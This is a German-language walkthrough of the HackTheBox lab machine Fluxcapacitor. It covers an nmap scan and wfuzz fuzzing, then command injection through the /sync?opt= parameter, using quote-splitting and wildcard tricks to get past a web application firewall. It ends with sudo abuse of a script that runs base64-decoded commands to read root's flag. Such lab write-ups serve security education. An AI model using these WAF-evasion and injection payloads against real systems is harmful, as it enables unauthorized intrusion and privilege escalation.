 ```yaml
---
title: "HackTheBox Fluxcapacitator"
date: 2010-01-01T01:01:56+01:00
toc: false
images:
tags:
  - hackthebox
  - ctf
---
```


[![Kurzes Video Walkthrough ohne Erklärungen](http://img.youtube.com/vi/YOUTUBE_VIDEO_ID_HERE/0.jpg)](http://www.youtube.com/watch?v=YOUTUBE_VIDEO_ID_HERE)

# HackTheBox – Fluxcapacitor WriteUp | Tipps + Anleitung | htb

[Fluxcapacitor](https://www.hackthebox.eu/home/machines/profile/119) ist eine der vielen Verfügbaren CTF Challenges von [HackTheBox](https://hackthebox.eu/). [Fluxcapacitor](https://www.hackthebox.eu/home/machines/profile/119) ist eine leichte bis mittelschwere Maschine von [HackTheBox](https://hackthebox.eu/).

![difficulty](https://imgur.com/RxixV0o.jpg)

## **Tipps**

[su_spoiler title="Tipp 1" open="no" style="fancy" icon="plus" anchor="" class=""]

[/su_spoiler]

[su_spoiler title="Tipp 2" open="no" style="fancy" icon="plus" anchor="" class=""]

[/su_spoiler]

[su_spoiler title="Tipp 3" open="no" style="fancy" icon="plus" anchor="" class=""]

[/su_spoiler]

[su_spoiler title="Tipp 4" open="no" style="fancy" icon="plus" anchor="" class=""]

[/su_spoiler]

[su_spoiler title="Tipp 5" open="no" style="fancy" icon="plus" anchor="" class=""]

[/su_spoiler]

## **Video**

[su_spoiler title="Kurzes Video Walkthrough ohne Erklärungen" open="no" style="fancy" icon="plus" anchor="" class=""]

<iframe width="560" height="314" src="//www.youtube.com/embed/vVZhVhoMKkY" allowfullscreen="allowfullscreen"></iframe>

[/su_spoiler]

## **Anleitung**

[su_spoiler title="Schritt 1" open="no" style="fancy" icon="plus" anchor="" class=""]

Beginnen wir wie gewohnt mit einem Nmap-Scan um herauszufinden welche Ports offen sind. Dabei können wir das Argument **-sV** benutzen, um uns die genaue Bezeichnung und die Version der Service anzeigen zu lassen.

<pre class="lang:default mark:7 decode:true">root@kali:~# nmap -sV 10.10.10.69
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-14 14:55 EDT
Nmap scan report for 10.10.10.69
Host is up (0.052s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    SuperWAF</pre>

Auf Port 80 läuft ein Webserver. Allerdings steht bei der Version nur **SuperWAF**. [WAF](https://de.wikipedia.org/wiki/Web_Application_Firewall) steht für Web Application Firewall und ist unter dafür da um Webanwendungen vor Angriffen wie z.B. SQL Injection, XSS, Parameter Tampering oder Command Injection zu schützen.

[/su_spoiler]

[su_spoiler title="Schritt 2" open="no" style="fancy" icon="plus" anchor="" class=""]

Sehen wir uns doch mal an was sich auf dem Webserver befindet.

![website](https://imgur.com/w2vNpK6.jpg)

Nichts interessantes hier, wie sieht es mit dem Seitenquelltext (Strg + U) aus?

<pre class="lang:default mark:10 decode:true "><!DOCTYPE html>
<html>
<head>
<title>Keep Alive</title>
</head>
<body>
OK: node1 alive
<!--
Please, add timestamp with something like:
<script> $.ajax({ type: "GET", url: '/sync' }); </script>
-->
<hr/>
FluxCapacitor Inc. info@fluxcapacitor.htb - http://fluxcapacitor.htb<br>
<em><met><doc><brown>Roads? Where we're going, we don't need roads.</brown></doc></met></em>
</body>
</html></pre>

Ein Verweis auf die Url **/sync**.

[/su_spoiler]

[su_spoiler title="Schritt 3" open="no" style="fancy" icon="plus" anchor="" class=""]

Wenn wir **http://10.10.10.69/sync** besuchen, bekommen wir die Rückmeldung **443 - Access Forbidden**.  
Wahrscheinlich verhindert die WAF, dass wir auf die Seite zugreifen können.

Können wir mit **curl** darauf zugreifen?

<pre class="lang:default decode:true ">root@kali:~# curl http://10.10.10.69/sync
20180514T20:56:52</pre>

Mit **curl** funktioniert es. Wir bekommen Datum und Uhrzeit zurück.

[/su_spoiler]

[su_spoiler title="Schritt 4" open="no" style="fancy" icon="plus" anchor="" class=""]

Warum uns der Zugriff verwehrt wird, wenn wir einen Internet-Browser benutzen, aber nicht wenn wir curl benutzen, kann mehrere Gründe haben.  
Darüber können wir uns aber später kümmern.

Vielleicht können wir /sync einen Parameter übergeben und dies ausnutzen um z.B. Code auszuführen (Command Injection).  
Um mögliche Parameter herauszufinden, können wir einen Fuzzer wie z.B. **wfuzz** benutzen.  
Wfuzz kannst du ganz einfach mit **apt install wfuzz** installieren.

**-c** sorgt dafür, dass wir einen farbigen output bekommen.  
Mit **-t** können wir angeben wie viele gleichzeitige Verbindungen hergestellt werden sollen  
**FUZZ** wird durch die Begriffe aus der Wörterliste ersetzt.

<pre class="lang:default decode:true">root@kali:~# wfuzz -c -t 50 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt "http://10.10.10.69/sync?FUZZ=test"

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer *
********************************************************

Target: http://10.10.10.69/sync?FUZZ=test
Total requests: 81643

==================================================================
ID Response Lines Word Chars Payload
==================================================================

000038: C=200 2 L 1 W 19 Ch "home"
000039: C=200 2 L 1 W 19 Ch "img"
000040: C=200 2 L 1 W 19 Ch "default"
000041: C=200 2 L 1 W 19 Ch "2005"
000042: C=200 2 L 1 W 19 Ch "products"
000043: C=200 2 L 1 W 19 Ch "sitemap"

</pre>

Die Standard-Antwort für ungültige Parameter scheint 19 Zeichen lang zu sein. Mit Hilfe von **--hh 19** können wir alle Wörter nicht anzeigen lassen, welche zu einer 19 Zeichen langen Antwort führen.

Lassen wir wfuzz jetzt nochmal starten.

<pre class="lang:default mark:16 decode:true">root@kali:~# wfuzz -c -t 50 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt --hh 19 "http://10.10.10.69/sync?FUZZ=test"

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.9 - The Web Fuzzer *
********************************************************

Target: http://10.10.10.69/sync?FUZZ=test
Total requests: 81643

==================================================================
ID Response Lines Word Chars Payload
==================================================================

009938: C=403 7 L 10 W 175 Ch "opt"

Total time: 808.8355
Processed Requests: 81643
Filtered Requests: 81642
Requests/sec.: 100.9389</pre>

Ein Parameter wurde gefunden, welcher eine 175 Zeichen lange Antwort hervorgerufen hat.

[/su_spoiler]

[su_spoiler title="Schritt 5" open="no" style="fancy" icon="plus" anchor="" class=""]

Jetzt wo wir einen gültigen Parameter wissen, den wir übergeben können, können wir Command Injection ausprobieren.

Ich werde dafür Burp benutzen, man kann dafür aber auch z.B. Curl benutzen (curl "http://10.10.10.69/sync?opt=BEFEHL").

Wenn wir Burp geöffnet haben, können wir http://10.10.10.69/sync?opt= im Browser öffnen. Burp wird diese Anfrage abfangen. Wenn wir Rechtsklick darauf machen können wir **Send to Repeater **auswählen oder einfach **Strg + R** drücken.

Dann können wir zu dem Repeater Tab öffnen und dort die Anfrage bearbeiten und immer wieder absenden. Rechts sehen wir dann die Antwort.

Wenn wir **/sync?opt=ls** probieren, bekommen wir wieder nur **403 Forbidden** zurück. Die WAF hat wahrscheinlich unseren Versuch einen Befehl auszuführen erkannt und verhindert diesen.

[/su_spoiler]

[su_spoiler title="Schritt 6" open="no" style="fancy" icon="plus" anchor="" class=""]

TheMiddle, der Ersteller von FluxCapacitor, hat zwei Artikel in denen er Techniken zur Umgehung der WAF erklärt (**WAF Evasion Techniques**). Der erste Artikel ist [hier](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8) und der zweite [hier](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0).

/sync?opt=' l's'

[...]  
home  
[...]  
root  
[...]

/sync?opt=' l's' /home'

FluxCapacitorInc  
themiddle

/sync?opt=' l's' /home/FluxCapacitorInc'

403 Forbidden

/sync?opt=' l's' /home/F???Capacitor???'

user.txt

/sync?opt=' c'a't /home/F???Capacitor???/u???.txt'

b8b 7bc

/sync?opt=' s'ud'o -l'

[...]

User nobody may run the following commands on fluxcapacitor:  
(ALL) ALL  
(root) NOPASSWD: /home/themiddle/.monit

/sync?opt=' c'a't /home/themiddle/.monit'

#!/bin/bash

if [ "$1" == "cmd" ]; then

echo "Trying to execute ${2}"  
CMD=$(echo -n ${2} | base64 -d)  
bash -c "$CMD"  
fi

<pre class="lang:default decode:true">root@kali:~# echo "cat /root/root.txt" | base64
Y2F0IC9yb290L3Jvb3QudHh0Cg==</pre>

/sync?opt=' 's'ud'o' /home/themiddle/.monit cmd Y2F0IC9yb290L3Jvb3QudHh0Cg=='

Trying to execute Y2F0IC9yb290L3Jvb3QudHh0Cg==  
bdc 30e